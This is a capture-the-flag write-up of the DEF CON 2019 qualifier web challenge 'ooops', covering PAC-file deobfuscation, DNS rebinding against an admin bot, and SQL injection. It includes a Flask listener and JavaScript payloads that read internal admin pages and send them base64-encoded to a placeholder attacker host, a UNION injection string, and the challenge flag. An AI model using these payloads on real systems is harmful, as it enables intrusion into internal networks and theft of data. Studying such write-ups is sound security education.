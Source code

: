 ```yaml
---
layout: post
title: "Defcon ctf quals 2019 : ooops"
tags:
  - writeup
  - web
comments: true
---
```


**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.

```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```

now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. And you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding. I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py

```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! And It looks like a SQL injection !

- response html

```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

![ooops.png]({{ site.baseurl }}/images/ooops.png)

### FLAG
> OOO{C0rporateIns3curity}

